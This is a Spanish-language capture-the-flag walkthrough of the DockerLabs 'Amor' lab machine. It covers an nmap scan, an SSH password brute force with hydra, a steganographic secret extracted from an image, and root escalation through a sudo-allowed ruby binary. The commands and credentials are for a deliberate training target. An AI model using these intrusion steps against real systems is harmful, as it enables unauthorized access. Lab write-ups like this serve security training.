 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Amor DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip amor.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh amor.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:33 EST
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

Si entramos en la pagina veremos el siguiente nombre en este apartado:

<figure><img src="../../.gitbook/assets/image (186) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos tendremos un nombre de usuario, vamos a probar a realizar fuerza bruta con `hydra`.

## Escalate user carlota

### Hydra

```shell
hydra -l carlota -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-17 12:36:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-17 12:36:22
```

Vemos que hemos obtenido unas credenciales, por lo que entraremos por `SSH`.

### SSH

```shell
ssh carlota@<IP>
```

Metemos como contraseña `babygirl` y veremos que estamos dentro.

## Escalate user oscar

Si nos vamos a la siguiente ruta:

```shell
cd /home/carlota/Desktop/fotos/vacaciones
```

Veremos un archivo llamado `imagen.jpg`, que podemos sospechar de que pueda tener algo en su interior, ya que no encontramos ningun vector de entrada mas, por lo que nos lo pasaremos a nuestro `host`.

```shell
python3 -m http.server
```

Y ahora en nuestro `host` ejecutaremos lo siguiente:

```shell
wget http://<IP>:8000/imagen.jpg
```

Ahora veremos que tiene algo dentro con el siguiente comando:

```shell
steghide extract -sf imagen.jpg
```

Info:

```
Enter passphrase: 
wrote extracted data to "secret.txt".
```

Vemos que nos extrae un archivo llamado `secret.txt` y si lo leemos veremos lo siguiente:

```
ZXNsYWNhc2FkZXBpbnlwb24=
```

Por lo que vemos esta en `Base64`, y si lo decodificamos quedara de esta forma:

```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```

Info:

```
eslacasadepinypon
```

Por lo que vemos puede ser la contraseña de algun usuario del sistema, por lo que vamos a probar con el siguiente usuario.

```shell
su oscar
```

Metemos como contraseña `eslacasadepinypon` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for oscar on caa1dc877f39:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on caa1dc877f39:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Vemos que podemos ejecutar el binario `ruby` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo ruby -e 'exec "/bin/bash"'
```

Info:

```
root@caa1dc877f39:/home/carlota/Desktop/fotos/vacaciones# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
